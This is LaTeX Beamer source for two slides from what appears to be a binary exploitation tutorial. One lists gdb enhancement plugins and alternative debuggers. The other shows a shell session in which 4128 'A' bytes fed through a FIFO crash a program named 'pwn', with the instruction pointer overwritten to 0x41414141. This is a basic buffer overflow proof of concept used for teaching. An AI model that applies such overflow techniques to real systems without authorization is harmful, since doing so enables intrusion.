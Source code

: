 \begin{frame}
  {Debuggers}

  \begin{itemize}
    \item Use gdb with one of those:
      \begin{itemize}
        \item \href{https://github.com/longld/peda}{PEDA}
        \item \href{https://github.com/hugsy/gef}{GEF}
        \item \href{https://github.com/zachriggle/pwndbg}{pwndbg}
        \item \href{https://github.com/snare/voltron}{voltron}
        \item \href{https://github.com/cyrus-and/gdb-dashboard}{gdb-dashboard}
      \end{itemize}
    \item gdb alternatives: lldb, radare2
    \item Newer debugging approaches
      \begin{itemize}
        \item \href{https://github.com/BinaryAnalysisPlatform/qira}{qira}
        \item \href{http://rr-project.org/}{rr}
      \end{itemize}
  \end{itemize}
\end{frame}





\begin{frame}

  {\Huge Pwning!}
  \vspace{1em}

  \begin{lstlisting}
$ mkfifo ./fifo
$ ./pwn ./fifo & python -c 'print("A"*4128)' >> ./fifo
[1] 9391
The file has been saved successfully
[1]  + 9391 segmentation fault (core dumped)  ./pwn ./fifo
$ dmesg | tail -n 1
pwn[9391]: segfault at 41414141 ip 0000000041414141
  sp 00000000ffb6d340 error 14
  \end{lstlisting}
\end{frame}


